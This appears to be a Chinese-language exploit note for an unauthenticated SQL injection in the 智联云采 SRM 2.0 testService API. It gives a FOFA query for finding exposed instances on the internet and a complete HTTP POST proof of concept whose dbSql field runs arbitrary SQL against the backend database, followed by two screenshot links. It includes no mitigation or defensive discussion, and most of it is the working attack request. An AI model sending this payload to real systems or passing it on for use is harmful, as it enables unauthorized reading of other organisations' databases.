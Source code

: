 # 智联云采testService存在SQL注入漏洞

智联云采testService存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息。

## fofa

```yaml
title=="SRM 2.0"
```

## poc

```java
POST /adpweb/a/ica/api/testService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/json

{
    "dbId": "1001",
    "dbSql": "#set ($lang = $lang) SELECT * FROM v$version",
    "responeTemplate": "{\"std_data\": {\"execution\": {\"sqlcode\": \"$execution.sqlcode\", \"description\": \"$execution.description\"}}}",
    "serviceCode": "q",
    "serviceName": "q",
    "serviceParams": "{\"lang\":\"zh_CN\"}"
}
```

![image-20241018154644283](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181546560.png)

![image-20241018154704052](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181547135.png)